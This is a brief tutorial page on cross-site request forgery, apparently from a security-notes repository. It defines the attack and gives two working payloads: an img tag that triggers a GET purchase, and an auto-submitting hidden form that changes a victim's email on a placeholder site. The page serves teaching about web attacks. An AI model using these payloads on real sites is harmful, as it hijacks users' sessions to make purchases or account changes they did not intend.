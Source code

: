 # CSRF (Cross-site request forgery)

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

### Table of content

- [How does it work ?](#how-does-it-work)
- [Get method]()
- [Post method]()

## How does it work ? 

Imagine that you've just opened a fraudulent link. A normal image could be `<img src="https://normal/img/dog">`, and the web browser would resolve the link and display the image.

Now, imagine that the image link is: `<img src="http://www.shopping-online.com/Index?buy=tv&nb=100&confirm=1">`.

In fact, thanks to CSRF, the hacker will attempt to use the connection cookies stored on your computer to make you perform unwanted actions behind your back. Here, they are trying to make you buy 100 TVs on the website http://www.shopping-online.com.

## Get Method

Get Method are easier to resolve and more predectible.

```html
<img src="http://www.shopping-online.com/Index?buy=tv&nb=100&confirm=1">
```

## Post Method

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

---

[**:arrow_right_hook: Back home**](/README.md)
